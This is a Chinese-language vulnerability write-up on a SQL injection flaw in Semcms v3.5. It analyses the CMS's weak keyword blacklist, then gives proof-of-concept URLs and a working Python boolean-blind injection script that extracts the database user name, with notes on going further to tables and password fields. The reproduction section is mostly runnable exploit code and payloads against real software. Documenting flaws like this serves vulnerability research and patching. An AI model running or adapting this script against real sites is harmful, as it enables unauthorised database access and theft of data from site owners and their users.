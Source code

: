```yaml
---
title: Semcms v3.5 sql注入漏洞
id: zhfly3122
---
```


# Semcms v3.5 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms v3.5

## 三、复现过程

### 漏洞分析

在分析过程中看到网上已经有人发现semcms V2.4存在过滤不严导致sql注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件index.php的代码

```
1 <?php
2 include_once  'Include/web_inc.php';
3 include_once  'Templete/default/Include/Function.php';
4 $file_url="";
5 include_once  'Templete/default/Include/default.php';
6 ?> 
```

```
 1 //网站logo
 2 
 3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
 4 
 5 // 控制文字标签 更改 获取的 语种 id
 6 
 7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
 8 
 9 if(!empty($Language)){
10 
11       //网站SEO设定
12 
13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
14       $row=mysqli_fetch_array($query);
15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题 
```

```
 1 // 防sql入注
 2 
 3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';}     //所有GET方式提交的变量都进行防注入检查
 4  
 5 foreach ($GetArray as $value){ //get
 6     
 7     verify_str($value);
 8   
 9 }
10 
11 function inject_check_sql($sql_str) {
12   
13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);    //过滤关键字
14 } 
15 
16 function verify_str($str) { 
17  
18    if(inject_check_sql($str)) {
19    
20        exit('Sorry,You do this is wrong! (.-.)');      //如果出现关键字则提示
21     } 
22  
23     return $str; 
24 } 
```

```
 1 function test_input($data) {                   //防止XSS
 2       $data = str_replace("<script", "", $data);
 3       $data = str_replace("</script>", "", $data);
 4       $data = str_replace("%", "percent", $data);
 5       $data = trim($data);
 6       $data = stripslashes($data);
 7       $data = htmlspecialchars($data,ENT_QUOTES);    //实体编码
 8       return $data;
 9 
10    } 
```

可以看到第16行的函数verify_str()调用inject_check_sql()用来过滤危险字符，函数test_input用来过滤xss。其中可以明显地看到第11行的函数inject_check_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现

```
http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0    显示正常 
```

![image](../img/43751a9c8c27b838ea61c6fe7c1695ae.png)

```
http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0    显示错误 
```

![image](../img/89e056cf5e5b9df3d262a3c929bccf43.png)

参考网上已有的fuzz盲注脚本改了下，代码如下

```
#用python3版本
import requests
url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
print("Testing url: " + url)
#十进制数33-126间的ascii hex值
payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
            "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
            "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
            "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
            "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
            "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
            "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
            "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
            "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
            "0x7b","0x7c","0x7d"
           ]
user = ""
for b in range(len(payload)):
    for a in payload:
        #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
        sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
        res = requests.get(url + sql_payload_user).text
        res1 = requests.get(url).text
        if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
            user = user + a
            print(" ")
            print("[*]info : 0x" + user.replace("0x","").upper())
            break
        else:
            print('\r',"Match failed,Next.....",end='') 
```

测试结果如下图

![image](../img/ebd23766886fe6b65c6a9ac64a2c9518.png)

解码ascii hex值0x726F6F74406C6F63616C686F7374为root@localhost。当然因为过滤了select，获取表名就有点困难了，t00ls中看到有人介绍用selselectect来绕过的方式跟这个CMS的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过fuzz猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章[blind-sql-injection-burpsuite-like-a-boss(要翻墙)](https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss)

## 参考链接

> https://www.cnblogs.com/st404/p/10087191.html